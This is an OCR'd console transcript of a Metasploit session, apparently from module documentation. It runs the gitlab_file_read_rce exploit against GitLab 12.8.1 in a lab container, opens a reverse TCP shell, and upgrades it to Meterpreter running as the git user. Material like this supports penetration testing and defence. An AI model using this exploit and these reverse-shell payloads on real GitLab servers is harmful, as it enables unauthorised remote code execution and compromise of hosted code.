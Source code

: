 ```
   SSL              false                                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /users/sign_in                             yes       The path to the vulnerable application
   USERNAME                                                    no        The username to authenticate as
   VHOST            gitlab.example.com                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Command shell session 12 opened (172.17.0.1:4444 -> 172.17.0.2:58026) at 2020-12-06 19:53:24 -0500

^Z
Background session 12? [y/N]  y
msf exploit(multi/http/gitlab_file_read_rce) > sessions -u 12
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [12]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 12
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 13 opened (172.17.0.1:4433 -> 172.17.0.2:56876) at 2020-12-06 19:53:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                      Connection
  --  ----  ----                   -----------                                                      ----------
  12        shell ruby/ruby                                                                         172.17.0.1:4444 -> 172.17.0.2:58026 (127.0.0.1)
  13        meterpreter x86/linux  git @ 5d733775a28a (uid=998, gid=998, euid=998, egid=998) @ 172  172.17.0.1:4433 -> 172.17.0.2:56876 (172.17.0.2)
                                   .17.0.2

msf exploit(multi/http/gitlab_file_read_rce) >
```

